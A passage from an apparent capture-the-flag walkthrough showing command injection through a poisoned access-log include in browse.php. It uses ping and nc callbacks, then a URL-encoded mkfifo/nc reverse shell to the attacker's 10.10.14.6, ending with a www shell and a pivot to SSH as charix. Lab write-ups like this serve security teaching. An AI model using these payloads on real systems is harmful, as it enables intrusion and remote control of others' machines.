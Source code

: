 

    view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=ping 10.10.14.6





    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:03:55.775947 IP 10.10.10.84 > kali: ICMP echo request, id 30469, seq 0, length 64
    13:03:55.775985 IP kali > 10.10.10.84: ICMP echo reply, id 30469, seq 0, length 64
    13:03:56.799382 IP 10.10.10.84 > kali: ICMP echo request, id 30469, seq 1, length 64
    13:03:56.799404 IP kali > 10.10.10.84: ICMP echo reply, id 30469, seq 1, length 64



A quick test with `nc` shows that we can get tcp connections back as
well:



    view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=nc 10.10.14.6 8081





    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 30536



### Shell as www

So let's use the robust pipe shell from [Pentest Monkey's
Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
and get a shell. Visit
`view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.6%209001%20%3E/tmp/f`,
and:



    root@kali# nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 19226
    sh: can't access tty; job control turned off
    $ pwd
    /usr/local/www/apache24/data
    $ id
    uid=80(www) gid=80(www) groups=80(www)



## SSH as Charix

At this point we have a password from `pwdbackup.txt`. We also know from
the `/etc/passwd` that there is a user named charix. And the string
"charix" is in the password. So let's try this password as an ssh
password for a user charix. It works:
